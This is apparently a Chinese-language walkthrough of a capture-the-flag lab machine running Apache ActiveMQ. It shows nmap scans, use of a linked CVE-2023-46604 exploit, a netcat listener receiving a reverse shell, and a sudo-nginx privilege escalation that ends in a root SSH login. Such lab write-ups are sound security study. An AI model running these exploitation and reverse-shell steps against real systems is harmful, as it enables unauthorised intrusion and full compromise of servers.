

# 服务
```
┌──(root㉿kali)-[~]
└─# nmap -p- --open -Pn 10.10.11.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-08 05:00 EDT
Nmap scan report for 10.10.11.243
Host is up (0.46s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
44625/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 127.01 seconds

```


详细
```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.243 -p 22,80,1883,5672,8161,44625,61613,61614,61616
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-08 05:04 EDT
Nmap scan report for 10.10.11.243
Host is up (0.50s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
44625/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15

```

使用[CVE-2023-46604](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

拿到入口
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.243] 40042
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
whoami
activemq

```



# 提权

```
activemq@broker:/home/activemq$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx

```

按照[这里](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)的方法

```
activemq@broker:/home/activemq/.ssh$ ls
ls
id_rsa  id_rsa.pub
activemq@broker:/home/activemq/.ssh$ chmod 600 id_rsa
chmod 600 id_rsa
activemq@broker:/home/activemq/.ssh$ ssh -i id_rsa root@127.0.0.1
ssh -i id_rsa root@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added '127.0.0.1' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug  8 09:29:07 AM UTC 2024

  System load:           0.0
  Usage of /:            70.6% of 4.63GB
  Memory usage:          11%
  Swap usage:            0%
  Processes:             162
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:fe94:337d

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@broker:~# whoami
whoami
root

```
